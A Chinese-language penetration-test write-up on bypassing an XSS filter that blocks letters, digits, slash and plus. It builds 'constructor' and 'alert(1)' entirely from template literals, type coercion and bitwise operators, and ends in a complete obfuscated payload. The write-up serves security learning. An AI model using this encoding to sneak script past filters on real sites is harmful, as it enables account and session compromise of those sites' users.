 ​	最近在一次渗透中遇到了一个XSS，整个过程比较有趣，故记录下来。

​	该漏洞的输入点在后端过滤了数字、字母和斜杠（/），而输出点的位置在script标签内的字符串变量声明里，我们只需构造一个'-payload-'这样的payload便可以触发XSS，首先可以想到的是利用JSFuck，但不幸的是，后端还过滤了加号（%2b），于是便有了这篇文章的思路。

` 注，该漏洞的绕过方式还有很多种，这里仅仅只是提供一种绕过思路，算是对JSFuck的学习和拓展。`

​	这里首先提供一个思路

```javascript
[]["constructor"]["constructor"]("alert(1)")() 
```

​	在这种情况下，我们只需要构造出"constructor\"以及payload的字符串即可触发XSS。一个有意思的玩法便是通过字符串模板来构造，当然这里离不开${}和反引号。用几个例子来展示一下：

```javascript
![]  //  false

`![]`  //  "![]"

`${![]}`  //  "false"
```

​	字符串模板中的占位符的执行优先级是高于反引号的，我们可以利用占位符得到我们想要的对象，再得到其字符串。

```javascript
`${!![]}`   //  "true"

`${![]}`  //  "false"

`${{}}`   //   "[object Object]"

`${[][[]]}`  //  "undefined"
```

​	已经得到这么多字符串的情况下，我们可以利用索引来获取我们想要的字符，但加号被过滤了，我们还有什么办法可以快速构造数字的呢？

​	JS是弱类型语言，我们仅需要简单的运算即可得到基础的数字：

```javascript
[]-[]  //  0    0b0

!![]-[]  //  1    0b1

!![]<<!![]  //  2    0b10

!![]<<!![]<<!![]  // 4    0b100
```

​	通过位运算符得到这些基础数字后，可以执行的操作就很多了，我使用的是或运算，实际情况中还可以考虑其他的运算符。

```javascript
(!![]<<!![]<<!![]<<!![]<<!![]<<!![]<<!![]<<!![])|(!![]<<!![]<<!![]<<!![]<<!![]<<!![]<<!![])|(!![]<<!![]<<!![]<<!![]<<!![]<<!![])|(!![]<<!![]<<!![]<<!![])|(!![]<<![])  //  233
```

​	剩下的就是构造payload的时候了，通过我们前面所说的`[]["constructor"]["constructor"]("alert(1)")() ` 思路，按部就班的做就可以了。

```javascript
`${{}}`[!![]<<!![]<<!![]|!![]-[]]   //  "c"

`${{}}`[!![]-[]]  //  "o"

`${[][[]]}`[!![]-[]]  //  "n"

`${![]}`[!![]-[]|!![]<<!![]]  //  "s"

`${!![]}`[[]-[]]  //  "t"

`${!![]}`[!![]-[]]  //  "r"

`${[][[]]}`[[]-[]]  //  "u"

`${{}}`[!![]<<!![]<<!![]|!![]-[]]   //  "c"

`${!![]}`[[]-[]]  //  "t"

`${{}}`[!![]-[]]  // "o"

`${!![]}`[!![]-[]]  //  "r"
```

​	拼接这些字符为一整个字符串。

```javascript
`${`${{}}`[!![]<<!![]<<!![]|!![]-[]]}${`${{}}`[!![]-[]]}${`${[][[]]}`[!![]-[]]}${`${![]}`[!![]-[]|!![]<<!![]]}${`${!![]}`[[]-[]]}${`${!![]}`[!![]-[]]}${`${[][[]]}`[[]-[]]}${`${{}}`[!![]<<!![]<<!![]|!![]-[]]}${`${!![]}`[[]-[]]}${`${{}}`[!![]-[]]}${`${!![]}`[!![]-[]]}`   //  "constructor"

['constructor']['constructor']('alert(1)')()
```

​	构造payload

```javascript
_=`${`${{}}`[!![]<<!![]<<!![]|!![]-[]]}${`${{}}`[!![]-[]]}${`${[][[]]}`[!![]-[]]}${`${![]}`[!![]-[]|!![]<<!![]]}${`${!![]}`[[]-[]]}${`${!![]}`[!![]-[]]}${`${[][[]]}`[[]-[]]}${`${{}}`[!![]<<!![]<<!![]|!![]-[]]}${`${!![]}`[[]-[]]}${`${{}}`[!![]-[]]}${`${!![]}`[!![]-[]]}`;

[][_][_](`${`${!![][~[]]}`[!!{}<<![]]}${`${!![][~[]]}`[!!{}<<!![]]}${`${![][~[]]}`[(!![]<<!![])|!![]]}${`${![][~[]]}`[!!{}<<![]]}${`${![][~[]]}`[!{}<<![]]}(${!!{}<<![]})`)()
```

​	简略的写法也可以写成这样

```javascript
([,__,,,,___,____]=`${{}}`,[_____,,,_________,,,______,,,,__________,___________,_______,,,________]=`${[][~[]]}${!![][~[]]}${![][~[]]}`)[_=`${___}${__}${______}${_______}${____}${________}${_____}${___}${____}${__}${________}`][_](`${__________}${___________}${_________}${________}${____}(1)`)()
```

